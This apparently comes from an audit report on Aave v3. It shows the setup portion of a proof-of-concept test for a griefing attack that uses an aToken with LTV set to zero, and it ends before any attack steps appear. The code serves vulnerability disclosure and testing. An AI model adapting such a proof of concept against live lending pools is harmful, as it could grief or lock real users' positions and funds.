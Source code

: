 ## Test to showcase the griefing attack and the possible solution that the victim could adopt

```solidity
import { expect } from 'chai';
import { BigNumber, utils } from 'ethers';
import { MAX_UINT_AMOUNT, ZERO_ADDRESS } from '../helpers/constants';
import { ProtocolErrors, RateMode } from '../helpers/types';
import { convertToCurrencyDecimals } from '../helpers/contracts-helpers';
import { makeSuite, SignerWithAddress, TestEnv } from './helpers/make-suite';
import { getReserveData, getUserData } from './helpers/utils/helpers';
import './helpers/utils/wadraymath';
import { AToken, evmRevert, evmSnapshot, MintableERC20, Pool, waitForTx, WETH9Mocked } from '@aave/deploy-v3';

makeSuite('POC AToken with LTV 0 Griefing attack', (testEnv: TestEnv) => {
  const { INVALID_HF, LTV_VALIDATION_FAILED } = ProtocolErrors;

  let snap: string;

  before(async () => {
    const { addressesProvider, oracle } = testEnv;
    await waitForTx(await addressesProvider.setPriceOracle(oracle.address));
    snap = await evmSnapshot();
  });

  after(async () => {
    const { aaveOracle, addressesProvider } = testEnv;
    await waitForTx(await addressesProvider.setPriceOracle(aaveOracle.address));
  });

  it('POC EXECUTION', async () => {
    await evmRevert(snap);
    snap = await evmSnapshot();

    // Initial configuration

    // DAI = AToken with LTV = 0
    // AAVE = AToken with LTV > 0
    // USDC = AToken with LTV > 0
    // WETH = AToken with LTV > 0
    const {
      helpersContract,
      oracle,
      configurator,
      pool,
      poolAdmin,
      dai,
      aave,
      usdc,
      weth,
      aDai,
      aWETH,
      users: [user1, user2, user3, randomEOA, usdcSupplier],
    } = testEnv;

    // Set DAI as an underlying with LTV = 0
    expect(await configurator.configureReserveAsCollateral(dai.address, 0, 8000, 10500))
      .to.emit(configurator, 'CollateralConfigurationChanged')
      .withArgs(dai.address, 0, 8000, 10500);
    const ltv = (await helpersContract.getReserveConfigurationData(dai.address)).ltv;
    expect(ltv).to.be.equal(0);

```